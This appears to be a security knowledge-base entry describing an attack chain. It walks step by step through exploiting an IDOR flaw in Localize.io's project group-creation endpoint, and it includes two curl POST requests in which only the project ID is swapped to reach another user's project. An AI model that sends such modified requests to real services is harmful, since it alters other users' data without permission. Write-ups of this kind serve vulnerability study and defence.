

---
tags:
  - idor
  - privilege-escalation
  - web-vulnerability
type: attack_chain
tools:
  - '[[tools/Burp-Suite]]'
tactics:
  - '[[Privilege Escalation]]'
verified: false
platforms:
  - Web
submitted: true
complexity: medium
created_at: '2023-10-01T00:00:00Z'
procedures:
  - '[[procedures/Exploit-IDOR-for-Unauthorized-Group-Creation]]'
step_count: 6
techniques:
  - '[[Exploit Public-Facing Application]]'
updated_at: '2025-12-14T17:28:44.732Z'
description: >-
  An authenticated user exploits an Insecure Direct Object Reference (IDOR)
  vulnerability in the Localize.io project group creation endpoint to create
  groups in projects owned by other users, leading to privilege escalation and
  potential project tampering.
skill_level: intermediate
impact_level: high
id: 0461982e-72a4-4503-9e3f-8df080a1931c
validated: true
mitre_tactics:
  - '[[Privilege Escalation]]'
mitre_techniques:
  - '[[Exploit Public-Facing Application]]'
---
# IDOR Exploitation for Unauthorized Group Creation in Foreign Projects

Multi-stage attack chain demonstrating a complete workflow to exploit an IDOR vulnerability in Localize.io, allowing any authenticated user to create groups in other users' projects without permission. This leads to unauthorized modifications, disrupting project organization or enabling further attacks like introducing malicious content.

## Chain Metrics Dashboard

| Metric | Value |
|--------|-------|
| Chain Status | Unverified |
| Total Steps | 6 |
| Execution Time | ~5 minutes |
| Skill Level | Intermediate |
| Complexity | Medium |
| Impact Level | High |

## Attack Flow Visualization



## Prerequisites & Requirements

### Required Tools

- [[tools/Burp-Suite]]

### Target Environment

- Web application (Localize.io or similar PHP-based platform)
- Authenticated user session
- Access to public projects owned by other users

### Initial Access Requirements

- Valid authenticated session (e.g., via login credentials)
- Network access to the target web application
- No prior ownership of the target project required

## Detailed Attack Procedures

### Step 1: Identify a Target Public Project

procedure: [[procedures/Exploit-IDOR-for-Unauthorized-Group-Creation]]

**Objective**: Locate a public project owned by another user to target for unauthorized group creation.

**Instructions**: Browse the application to find public project URLs, such as http://www.localize.io/v/8h, where '8h' is the project ID. Ensure the current user (e.g., User2) lacks edit permissions on this project.

**Expected Output**: Project details page confirming the target project ID and lack of edit access.

**Success Indicators**:
- Public project URL identified with distinct project ID
- Confirmation that the user cannot normally edit the project

### Step 2: Navigate to Own Project Creation Page

procedure: [[procedures/Exploit-IDOR-for-Unauthorized-Group-Creation]]

**Objective**: Access the group creation interface in the user's own project to prepare a legitimate request.

**Instructions**: Log in and navigate to a page in your own project, such as http://www.localize.io/pages/create_project/3F, where '3F' is your project ID.

**Expected Output**: Group creation form loaded for your own project.

**Success Indicators**:
- Form accessible without errors
- Own project ID confirmed in the URL

### Step 3: Attempt to Create a New Group in Own Project

procedure: [[procedures/Exploit-IDOR-for-Unauthorized-Group-Creation]]

**Objective**: Trigger a group creation request in your own project to capture a baseline HTTP POST.

**Instructions**: Fill out the group creation form with details like group name 'Test'. This initiates a POST request to /pages/create_project/3F. Use [[commands/original-group-creation-request]] to simulate:

```bash
curl -X POST "http://www.localize.io/pages/create_project/3F" \
  -H "User-Agent: Mozilla/5.0 (Windows NT 6.2; rv:28.0) Gecko/20100101 Firefox/28.0" \
  -H "Accept: text/html,application/xhtml+xml,application/xml;q=0.9,*/*;q=0.8" \
  -H "Accept-Language: en-US,en;q=0.5" \
  -H "Accept-Encoding: gzip, deflate" \
  -H "Referer: http://www.localize.io/pages/create_project/82" \
  -H "Cookie: PHPSESSID=srdrqpfu6k679bna6e2rtrsrq7" \
  -H "Connection: keep-alive" \
  -H "Content-Type: application/x-www-form-urlencoded" \
  -d "CSRFToken=NTc4NTUxMjY1MzUxZTllOGIwYWM4MC4yMjE1MjUxNw%3D%3D&addGroup%5Bname%5D=Test"
```

**Expected Output**: Successful group creation in your own project, with a 200 OK response or redirect.

**Success Indicators**:
- Group 'Test' appears in your project
- Request captured successfully

### Step 4: Intercept the Group Creation Request

procedure: [[procedures/Exploit-IDOR-for-Unauthorized-Group-Creation]]

**Objective**: Capture the outgoing POST request using a proxy tool for modification.

**Instructions**: Configure [[tools/Burp-Suite]] as a proxy to intercept traffic. Submit the form and capture the POST request containing form data like CSRFToken and addGroup[name]=Test.

**Expected Output**: Intercepted HTTP request visible in the proxy tool.

**Success Indicators**:
- Full request details (headers, body) captured
- No errors in proxy interception

### Step 5: Modify the Request to Target the Victim's Project

procedure: [[procedures/Exploit-IDOR-for-Unauthorized-Group-Creation]]

**Objective**: Alter the project ID in the request to exploit the IDOR and target another user's project.

**Instructions**: In the proxy tool, change the POST path from /pages/create_project/3F to /pages/create_project/8h. Keep headers, cookies, and body intact. Use [[commands/modified-idor-group-creation-request]] to simulate:

```bash
curl -X POST "http://www.localize.io/pages/create_project/8h" \
  -H "User-Agent: Mozilla/5.0 (Windows NT 6.2; rv:28.0) Gecko/20100101 Firefox/28.0" \
  -H "Accept: text/html,application/xhtml+xml,application/xml;q=0.9,*/*;q=0.8" \
  -H "Accept-Language: en-US,en;q=0.5" \
  -H "Accept-Encoding: gzip, deflate" \
  -H "Referer: http://www.localize.io/pages/create_project/82" \
  -H "Cookie: PHPSESSID=srdrqpfu6k679bna6e2rtrsrq7" \
  -H "Connection: keep-alive" \
  -H "Content-Type: application/x-www-form-urlencoded" \
  -d "CSRFToken=NTc4NTUxMjY1MzUxZTllOGIwYWM4MC4yMjE1MjUxNw%3D%3D&addGroup%5Bname%5D=Test"
```

**Expected Output**: Modified request ready for forwarding.

**Success Indicators**:
- Project ID successfully changed to target's (e.g., '8h')
- Request remains valid (no syntax errors)

### Step 6: Forward the Modified Request

procedure: [[procedures/Exploit-IDOR-for-Unauthorized-Group-Creation]]

**Objective**: Send the altered request to create the group in the target project without permission.

**Instructions**: Forward the modified POST request through the proxy. Verify by checking the target project for the new group.

**Expected Output**: Successful response (e.g., 200 OK) and the group 'Test' created in the foreign project (ID 8h).

**Success Indicators**:
- Group appears in the victim's project
- No authorization error returned

## Attack Chain Summary

### Key Achievements

1. Identified and targeted a foreign public project via IDOR.
2. Intercepted and modified a legitimate request to bypass ownership checks.
3. Achieved unauthorized group creation, demonstrating privilege escalation.

## Technique & Tactic Coverage

### MITRE ATT&CK Techniques

- [[Exploit Public-Facing Application]]

### MITRE ATT&CK Tactics

- [[Privilege Escalation]]

---

*Last updated: 2023-10-01T00:00:00Z*
